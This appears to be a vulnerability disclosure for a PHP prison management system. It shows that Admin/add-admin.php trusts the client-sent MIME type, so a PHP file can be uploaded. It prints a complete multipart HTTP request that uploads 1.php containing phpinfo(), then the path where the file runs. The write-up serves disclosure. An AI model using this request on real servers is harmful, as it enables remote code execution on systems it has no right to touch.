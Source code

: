 # Prison Management System Using PHP - Arbitrary file upload

In Admin/add-admin.php, validation is performed based on $file_type = $\_ FILES\['avatar']\['type'].

![](image/image_G_-ARj4pBx.png)

So, setting the request header Content-Type: image/png, filename="1.php" allows for uploading.

```http
POST /Admin/add-admin.php HTTP/1.1
Host: 192.168.3.182
Content-Length: 683
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Origin: http://192.168.3.182
Content-Type: multipart/form-data; boundary=----WebKitFormBoundary7lYpEc4qMBoPyFDG
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/122.0.6261.112 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://192.168.3.182/Admin/add-admin.php
Accept-Encoding: gzip, deflate, br
Accept-Language: zh-CN,zh;q=0.9
Cookie: XDEBUG_SESSION=18398; PHPSESSID=4deq4thcl25d1l3ld87s2tf19m
Connection: close

------WebKitFormBoundary7lYpEc4qMBoPyFDG
Content-Disposition: form-data; name="txtusername"


------WebKitFormBoundary7lYpEc4qMBoPyFDG
Content-Disposition: form-data; name="txtfullname"


------WebKitFormBoundary7lYpEc4qMBoPyFDG
Content-Disposition: form-data; name="txtpassword"


------WebKitFormBoundary7lYpEc4qMBoPyFDG
Content-Disposition: form-data; name="txtphone"


------WebKitFormBoundary7lYpEc4qMBoPyFDG
Content-Disposition: form-data; name="avatar"; filename="1.php"
Content-Type: image/png

<?php phpinfo() ?>
------WebKitFormBoundary7lYpEc4qMBoPyFDG
Content-Disposition: form-data; name="btncreate"


------WebKitFormBoundary7lYpEc4qMBoPyFDG--
```

![](image/image_s0eFSVyRxw.png)

Accessing <http://192.168.3.182/uploadImage/Profile/1.php>

![](image/image_NMLfx8NcMX.png)
